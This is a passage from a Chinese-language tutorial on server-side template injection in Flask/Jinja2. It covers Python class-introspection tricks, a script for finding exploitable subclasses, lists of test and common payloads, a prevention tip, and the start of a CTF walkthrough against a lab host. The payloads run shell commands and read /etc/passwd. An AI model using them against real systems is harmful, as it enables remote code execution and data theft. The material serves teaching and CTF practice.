   // **base**和**mro**都是用来寻找基类的

* `__subclasses__` python的新式类都保留了它所有的子类的引用，`__subclasses__()` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。
* `__init__`  类的初始化方法
* `__globals__`  保存了函数所有的所有全局变量，在利用中，可以使用 `__init__` 获取对象的函数，并通过 `__globals__` 获取 file、os 等模块以进行下一步的利用

**查找可用的payload**

```python
index = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print(index, item)
        index += 1
    except:
        index += 1
# 396 <class 'http.cookiejar.Cookie'>
# 399 <class 'http.cookiejar.CookieJar'>

# ''.__class__.__mro__[-1].__subclasses__()[396].__init__.__globals__['os'].system('ls')
```

**测试用例**

Flask/Jinja2

* `{{ config }}`
* `{{ config.items() }}`
* `{{get_flashed_messages.__globals__['current_app'].config}}`
* `{{''.__class__.__mro__[-1].__subclasses__()}}`
* `{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}`
* `{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}`

**常见payload**

* `().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()`
* `().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )`

**预防**

将传入可控参数的地方加上变量包裹符`{{}}`，即可防止表达式执行。

```python
@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```

以一个题为例，题目来自于攻防世界的Web\_python\_template\_injection

```php
http://220.249.52.133:52133/{{7*7}}
# 返回下面的结果，可以看到7*7被执行了
# URL http://220.249.52.133:52133/49 not found

http://220.249.52.133:52133/{{''.__class__}}
# ''.__class__ 返回空字符串的类型
# URL http://220.249.52.133:52133/<type 'str'> not found

http://220.249.52.133:52133/{{''.__class__.__mro__}}
# 返回了当前类和继承的基类，这里我们选择object类
# URL http://220.249.52.133:52133/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2]}}
# URL http://220.249.52.133:52133/<type 'object'> not found

```